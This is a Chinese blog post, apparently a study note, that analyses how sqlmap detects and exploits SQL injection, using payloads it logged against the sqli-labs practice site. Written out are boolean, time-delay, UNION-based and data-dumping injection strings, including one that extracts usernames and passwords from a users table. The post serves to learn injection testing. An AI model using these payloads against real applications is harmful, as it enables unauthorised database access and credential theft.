



sqli-labs的注入题会自动把注入语句保存下来，正好可以拿来分析sqlmap的一些判断逻辑。
0x01基础判断：
1 | ID:1 |
当sqlmap注入了这些语句之后，cmd里面开始显示ID有可能有注入了，我把第七和第八条放到浏览器里面执行以下看看会返回什么

报错了

我猜可能sqlmap这里是通过后端报错才判断ID这个参数可能含有sql注入
1 | ID:1) AND 4934=4934 AND (9042=9042 |
这里是是测试了很多的闭合，通过最后三条的不同回显可以判断出来ID参数是有注入点的1
2
3ID:1';SELECT SLEEP(5)#
ID:1';SELECT BENCHMARK(5000000,MD5(0x43635973))#
ID:1';SELECT BENCHMARK(5000000,MD5(0x4c6e575a)) AND 'ulnh'='ulnh
还有测试延时注入
1 | ID:1' ORDER BY 1-- RTQM |
这里是猜解表段的阶段
1 | ID:1' UNION ALL SELECT CONCAT(0x71766a6271,0x455545676c6458725446766f674d6d7757704e6d5a504f596a4c7273594c5a4c5a774f4b48796577,0x717a6a7671),NULL,NULL-- eCUs |
sqlmap把字串带进去开始尝试，然后发现第二个字段和第三个字段是可以显示的
sqlmap通过生成随机的字串来定位程序的输出点是很明智的一种方式，有些无用的语句我直接给省略了没有写出来，下面有用到的函数分析
淫荡分割线
用到的函数有：
- IF(x,y,z) :如果x为真，则y，否则z。
- CONCAT(x,y) :SQL CONCAT函数用于将两个字符串连接起来，形成一个单一的字符串。
- ELT(x,y,z..) :通过x来显示输出y或者是z，看例子，其中x可以是个运算式，x相等则输出y：
- BENCHMARK(x,y):执行x次y，比如BENCHMARK(500,md5(1)),这样在sleep函数被过滤的时候可以拿这个函数代替
0x02爆数据库名：
1 | ID:-6212' UNION ALL SELECT NULL,CONCAT(0x71766a6271,IFNULL(CAST(COUNT(schema_name) AS CHAR),0x20),0x717a6a7671),NULL FROM INFORMATION_SCHEMA.SCHEMATA-- TKCP |
这里先说一下sqlmap的思路，就是把爆出来的值先变成字符然后和自己生成的随机字串混合，到时候再从混合的随机字串里面把值取出来
第一条我们可以看见他用count(schema_name)来查询sechema_name的字段数，也就是数据库的数量，将查出来的值用CAST()函数变成CHAR类型然后再和随机生成的字串混合
下面的，因为这是一个普通的注入点没有限制，所以可以直接用查询语句一条一条的把信息通通查询出来
简化一下注入语句，其实就是

后面的就比较大同小异了,使用 –dump选项的时候，sqlmap爬取信息的时候，会把表中的ID、username、password用生成的随机字串粘在一起，这样就可以一条注入语句输出出一条数据了
1 | ID:-8120' UNION ALL SELECT NULL,(SELECT CONCAT(0x71766a6271,IFNULL(CAST(id AS CHAR),0x20),0x736f6f63626f,IFNULL(CAST(password AS CHAR),0x20),0x736f6f63626f,IFNULL(CAST(username AS CHAR),0x20),0x717a6a7671) FROM security.users LIMIT 0,1),NULL-- eNsa |